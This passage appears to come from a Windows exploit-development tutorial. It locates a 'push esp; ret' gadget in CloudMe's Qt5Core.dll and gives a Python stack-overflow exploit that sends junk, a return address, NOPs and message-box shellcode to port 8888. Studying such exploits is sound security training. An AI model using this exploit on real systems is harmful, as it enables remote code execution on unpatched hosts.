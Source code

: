 ![windows](/assets/img/headers/windows-exploit-dev-part-2/win9.png)

Now we need to found in dll in area `push esp` and opcode is `54 c3`. I use this dll.
```sh
ModLoad: 68a80000 69055000   C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\Qt5Core.dll
```
![windows](/assets/img/headers/windows-exploit-dev-part-2/win10.png)

I use first address `0x68a842b5`. Now let's make a exploit with this address.

```python
import socket

target="127.0.0.1"
junk="A"*1052
push="\xb5\x42\xa8\x68"     # push ESP RET 0x68a842b5
nop="\x90"*20 		    # NOPS

shellcode = ("\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
"\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
"\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
"\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
"\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
"\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
"\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
"\x49\x0b\x31\xc0\x51\x50\xff\xd7")

payload=junk+push+nop+shellcode
try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(payload)
except:
	print "Don't Crash Me !"
```
Run exploit.

